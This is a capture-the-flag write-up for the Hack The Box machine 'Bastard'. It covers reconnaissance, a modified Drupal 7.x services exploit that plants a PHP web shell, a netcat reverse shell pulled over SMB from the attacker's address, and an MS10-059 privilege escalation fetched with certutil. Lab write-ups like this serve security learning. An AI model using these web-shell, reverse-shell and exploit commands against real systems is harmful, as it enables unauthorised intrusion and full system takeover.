 # Bastard 

**OS:** Windows

**Level:** Medium

**Links:** [1](https://www.hackthebox.com/machines/Bastard)  [2](https://app.hackthebox.com/machines/Bastard)

**Machine ip:** 10.10.10.9

![Bastard](https://github.com/h4md153v63n/CTFs/assets/5091265/84d54684-632c-4ac5-ac8e-146a4b2d7267)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.9 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.9 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3af46416-e08d-4b5c-bdfb-0d8a16c4e1fb)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c9205d7a-b825-43c2-b71b-15b0456a3bb3)


## Enumeration
Visit **http://10.10.10.9**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf5880f4-a25e-4c05-9b77-86ee83268cc1)

Check **http://10.10.10.9/CHANGELOG.txt**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5163edd8-e04c-472a-bd4e-45e64c7c4083)

Run searchsploit:

```
searchsploit drupal 7.x

searchsploit -m 41564
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d11fa67b-28a5-4a61-a50f-57a97b5b080c)

```
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.9/ -k -n -r -t 10 --exclude-length 1233
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ccab42b-9061-43f5-9c20-7b7c06453c46)

Test **http://10.10.10.9/rest** on the browser or using **curl**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/575bf492-5f0d-4771-b1b2-9a4d444580b6)

Modify the below lines in the exploit code:

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'cmd.php',
    'data' => '<?php system($_GET["cmd"]); ?>'
];
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b01489e0-aa1c-4305-ae2f-d9ae3dbd4b2b)

Run the exploit: `php 41564.php`

In case of **PHP Fatal error:  Uncaught Error: Call to undefined function curl_init()** error, run `sudo apt install php-curl` to install **php-curl**:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/293cb05e-6870-46cc-812d-1185ac050fa2)

Rerun the exploit: `php 41564.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab1d4ce6-aee4-4848-ba58-e3312d37e1c2)

It creates 2 files: **session.json** and **user.json**. 

Execute **http://10.10.10.9/cmd.php?cmd=whoami%20/all**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/557645c5-3039-4d4c-ab37-c4e5a0a724b8)


## Exploitation & Gaining Access
```
# On the kali attack vm: Start smbserver to share a copy of nc.exe
smbserver.py win /usr/share/windows-binaries/

# On the kali attack vm: Start netcat listener
nc -lnvp 4444

# Trigger the netcat revershell on the browser:
http://10.10.10.9/cmd.php?cmd=\\10.10.14.24\win\nc.exe -e cmd.exe 10.10.14.24 4444
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dcb8eaec-0ef3-4de7-b6ac-29859f8eecd4)

Get the revershell, and read user flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/652b50a0-4934-4ecd-8c70-20636bc5ac0d)


## Privilege Escalation
Run `systeminfo` command:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c0ed2707-e0cb-481d-b467-a6d5aaaf90df)

Run Windows Exploit Suggester:

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-14-mssb.xls --systeminfo systeminfo.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c85b903-336c-44b0-8e07-07b9f66c9861)

There are many exploits for privilege escalation here, but for now try **MS10–059**.

Download [exploit](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe), and transfer to the target victim, then prepare netcat listener, and run the **MS10–059.exe**:

```
# On the kali attack vm:
sudo python3 -m http.server 80

nc -lnvp 5555

# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24/MS10-059.exe" MS10-059.exe

MS10-059.exe 10.10.14.24 5555
```

Get the shell as **nt authority\system**, and read the root flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7d279287-cbd6-42b2-8a42-fa6be81d17b6)


# References & Alternatives
+ https://vvmlist.github.io/#Bastard
+ 


## CVE Scripting
+ **MS10–059:**
    + https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe 


## Tools
+  


## Technical Knowledge
+  


## Problems Solution
+ **PHP Fatal error:  Uncaught Error: Call to undefined function curl_init():** 
  + https://stackoverflow.com/questions/6382539/call-to-undefined-function-curl-init
  + https://enginetemplates.com/call-to-undefined-function-curl_init/


## For More
+ 
